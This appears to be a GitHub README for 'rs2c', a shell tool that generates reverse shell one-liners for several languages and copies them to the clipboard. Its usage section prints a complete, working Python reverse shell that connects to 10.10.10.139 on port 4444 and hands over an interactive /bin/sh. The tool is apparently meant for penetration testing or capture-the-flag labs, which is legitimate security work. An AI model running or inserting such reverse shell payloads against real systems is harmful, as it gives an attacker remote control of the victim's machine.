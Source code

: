 # Reverse Shell to Clipboard

Reverse Shell to Clipboard is a tool that will facilitate the task of creating a reverse shell according to the programming language you need.
## Installation

You can use it directly as a sh or for quick access you can copy into
/usr/local/bin


## Usage

If you don't have it copied to /usr/local/bin you will have to use it as ./rs2c inside the folder where it is hosted.
If you have it copied to /usr/local/bin you can use it from any folder with rs2c command.
You can generate a reverse shell for the following languages: 
java, bash, perl, python, php, ruby and for netcat

```bash
$ rs2c python 10.10.10.139 4444
>[*] Reverse shell copied to clipboard 
```
If you now paste it with Ctrl + Shift + v you will see the following
```bash
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.10.139',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);' 
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

